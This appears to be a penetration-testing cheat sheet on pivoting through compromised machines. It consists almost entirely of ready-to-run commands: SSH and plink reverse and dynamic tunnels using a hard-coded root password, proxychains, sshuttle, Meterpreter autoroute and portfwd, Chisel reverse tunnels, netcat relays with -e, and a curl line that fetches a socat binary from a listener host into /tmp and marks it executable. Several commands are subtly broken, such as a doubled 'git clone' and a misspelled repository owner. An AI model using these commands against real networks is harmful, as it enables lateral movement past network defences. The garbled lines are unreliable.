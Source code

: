 # Pivoting

### Single reverse port forwarding

```bash
plink.exe -l root -pw password -R 445:127.0.0.1:445 <listener_ip>
ssh -l root -pw password -R 445:127.0.0.1:445 <listener_ip>
```

### Single Local port forwarding

```bash
ssh -l root -pw password -L 445:127.0.0.1:445 <target>
```

### Dynamic port forwarding

Socks proxy (socks5) 

```bash
ssh -l root -pw password -D 1234 <target>
```

Double SSH tunnel

```bash
ssh <1st_target> -L 2222:<2nd_target>:22
ssh localhost -p 2222 -D 1234
```

### Proxychains

```bash
# Choose any tools to create a socks proxy 
ssh <target> -D 1234

# Configure proxychains.conf with the protocl and port you chose for the socks proxy
sudo vim /etc/proxychains.conf 
	quiet_mode				   # enable this 
	socks5	127.0.0.1 1234     # change this

#Use any tool prepending the proxychains command :
proxychains wpscan --url <url> 
wpscan --url <url> --proxy socks5://127.0.0.1:1234 --force

# For nmap, you need to specify the -Pn and -sT arguments
proxychains nmap -sT -Pn <target>
```
> You can also forward a single port to avoid using a socks proxy, or use sshuttle


### SSHuttle

transparent proxy over ssh

```sh
# sudo apt-get update && sudo apt-get install sshuttle
sshuttle -r <target_ip>:22 <target_network>/24
```

---

### Meterpreter

```sh
#Socks Proxy
run autoroute -s <target_network>/24
use auxiliary/server/socks4a
exploit -j

# Port forward
portfwd add -l 3389 -p 3389 -r <target>
```

### Plink

```sh
plink.exe -l root -pw password -R 445:127.0.0.1:445 <listener_ip> [-P <listener_port>] 
```

### [Chisel](https://github.com/jpillora/chisel)

Socks proxy over SSH for Windows

```sh
git clone git clone https://github.com/jpilloria/chisel && cd chisel && go build && go build -ldflags="-s -w" && upx build chisel && chmod +x chisel
./chisel client <listener_ip>:10000 R:4506:127.0.0.1:4506
chisel server -p 10000 --reverse
```

### Socat

```sh
curl -sL http://<listener_ip>:1234/socat -o /tmp/socat && chmod +x /tmp/socat && cd /tmp

# remote forward : redirect all trafic coming from TCP 4506 to remote host
socat TCP-LISTEN:4506,reuseaddr,reuseport,fork,bind=<listener_ip> TCP:<remote_ip>:4506

# localhost forward : redirect all trafic coming from TCP 80 to TCP 5000
socat TCP-LISTEN:80,fork TCP:127.0.0.1:5000

```

### Netcat

```sh
nc -v -lk -p 8001 -e /usr/bin/nc 127.0.0.1 8000
nc.traditional -l -p 8001 -c "nc 127.0.0.1 8000"
```

## [ReGeorg](https://github.com/sensepost/reGeorg)

Socks proxy over web

## [PortqryUI](https://www.microsoft.com/en-us/download/details.aspx?id=24009)

Nmap like for windows


